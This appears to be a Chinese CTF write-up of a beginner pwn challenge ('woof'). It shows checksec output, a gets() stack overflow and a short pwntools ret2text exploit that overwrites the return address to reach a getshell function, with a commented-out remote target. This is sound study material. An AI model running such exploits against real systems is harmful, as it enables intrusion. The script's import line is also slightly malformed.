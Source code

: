 ```yaml
---
title: 基础栈溢出ret2text
layout: doc
---
```

[[toc]]

## 基础检查
> 本例题是PolarD&N的基础入门pwn题 小狗汪汪汪

使用file和checksec 查看elf的位数和安全保护
```bash
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file woof
woof: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b3b9279f6e821fe77197c0b174bfee82dd39de52, not stripped
                                                                       
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=woof
[*] '/home/kali/win/Downloads/woof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
> 可以看到是32为小段序程序，且没有开启栈保护


## IDA反编译源码
![alt text](image.png)

可以看到main函数的流程，值得注意的是 dog函数


![alt text](image-1.png)
很明显可以看到gets这里存在栈溢出，s是一个长度为9的字符数组

![alt text](image-2.png)

要覆盖的地址在 栈上的 s + ebp 的位置 也就是 9 + 4

然后找一下有没有可以执行系统命令的函数
![alt text](image-3.png)
![alt text](image-4.png)

存在getshell函数

我们获取它的地址是 0x0804859B

## 编写exp脚本
> 使用pwntools库 可以方便的编写exp
```py
pwn import *

io = process("./woof")
# io = remote("120.46.59.242", 2111)

getshell_addr = 0x0804859B

padding = 9 + 4

payload = b'A' * padding + p32(getshell_addr)

io.send(payload)
io.interactive()

```

执行脚本后可获得交互shell